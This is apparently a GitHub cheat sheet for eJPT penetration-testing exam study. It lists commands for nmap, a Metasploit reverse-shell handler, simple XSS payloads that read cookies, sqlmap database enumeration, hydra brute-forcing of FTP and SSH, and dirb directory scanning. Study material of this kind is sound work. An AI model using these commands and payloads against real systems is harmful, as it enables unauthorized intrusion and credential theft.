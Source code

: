 # ejpt-cheet-sheet
Wireshark:

TCP:
```right click on it then click on Follow then click on TCP streem```

UDP:
```right click on it then click on Follow then click on UDP streem```


|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

Nmap:
```nmap -sn [the ip]/24 -oN file.txt
nmap scan types

-sS: TCP SYN Scan (aka Stealth Scan)
-sT: TCP Connect Scan 
-sU: UDP Scan
-sn: Port Scan
-sV: Service Version information
-O: Operating System information```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

Mataspolite:
```search (the payload name)

use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp # the payload
set RHOST           # the target host
run
```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

xss:
```
<script>alert(document.cookie)</script>
><img src=x onerror=alert(1)>
```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

finding ip's from websites:
```dig exampil.com

ip route add 192.168.10.0/24 via 10.175.3.1 -- اذا حبينا نضيف الجهاز المخفي```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

sqlmap:
```sqlmap -u ‘http://example.com/view.php?id=1141’ -p id
-u    == url
-p    == paramater
sqlmap -u "http://example.com/view.php?id=1141" --dbs == to get the database name```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

hydra:
```hydra -L users.txt -P pass.txt <service://server> 
hydra -l admin -P pass.txt -f ftp://10.10.10.10
hydra -l root -P pass.txt 192.168.1.105 -t 4 ssh
hydra -l root -P pass.txt <ssh ip>  ssh
ftp <IP>        # enter 'anonymous' as username and password
```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

drip:
```dirb http://<IP>/
dirb http://<IP>/ <dictionary_file_path>    # Use dictionary other than default one
dirb http://<IP>/dir -u admin:admin    # When you want to bust recursively but a dir asks for username password which you know already
```
